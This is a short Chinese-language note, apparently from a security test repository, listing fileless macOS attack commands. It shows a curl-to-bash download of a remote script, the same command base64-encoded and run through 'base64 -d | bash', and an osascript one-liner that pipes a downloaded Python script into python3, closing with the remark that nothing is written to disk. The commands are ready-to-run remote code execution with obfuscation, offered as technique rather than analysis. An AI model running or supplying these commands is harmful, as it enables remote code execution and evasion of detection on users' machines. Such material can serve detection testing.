 1、运行base64编码后的命令，从远端下载恶意脚本并执行
curl -s https://raw.githubusercontent.com/yq00/amp_test_demo/refs/heads/main/250709/harmless_applescript_demo.script | nohup bash

Y3VybCAtcyBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20veXEwMC9hbXBfdGVzdF9kZW1vL3JlZnMvaGVhZHMvbWFpbi8yNTA3MDkvaGFybWxlc3NfYXBwbGVzY3JpcHRfZGVtby5zY3JpcHQgfCBub2h1cCBiYXNo

echo "Y3VybCAtcyBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20veXEwMC9hbXBfdGVzdF9kZW1vL3JlZnMvaGVhZHMvbWFpbi8yNTA3MDkvaGFybWxlc3NfYXBwbGVzY3JpcHRfZGVtby5zY3JpcHQgfCBub2h1cCBiYXNo" |base64 -d|bash


2、osascript 直接跑命令下载python脚本运行
osascript -e 'do shell script "nohup curl -s https://raw.githubusercontent.com/yq00/amp_test_demo/refs/heads/main/250709/asset.py | python3 -" '

整个流程不落盘，直接执行

